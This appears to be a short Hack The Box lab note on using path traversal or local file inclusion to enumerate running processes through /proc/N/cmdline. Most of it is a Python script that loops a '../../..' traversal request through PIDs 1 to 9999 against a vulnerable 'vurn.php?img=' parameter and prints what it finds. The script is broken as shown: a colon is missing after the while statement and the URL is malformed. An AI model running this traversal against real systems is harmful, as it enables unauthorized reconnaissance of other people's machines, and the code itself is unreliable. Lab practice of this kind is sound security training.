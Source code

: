 ### 20-03-23
### Hack The Box - path-traversal - enumuration over /proc/(number)/cmdline

/proc/(number)/cmdline - this path can be very helpful when you haven’t yet got terminal access to a box, it may be possible to see processes that are running on the box with local file inclusion if the vulnerability exists on the box. 
  
### proc_cmdline.py
  
```python
import requests

host = "test.htb"
path = host + "vurn.php?img=../../../../../../../../../"

headers = {
    'Host': host,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

i=1
while i < 10000
    response = requests.get(path + 'proc/'+str(i)+'/cmdline',headers=headers,verify=False,)
    if response.text:
        print (str(i),response.text)
    i = i + 1  
```
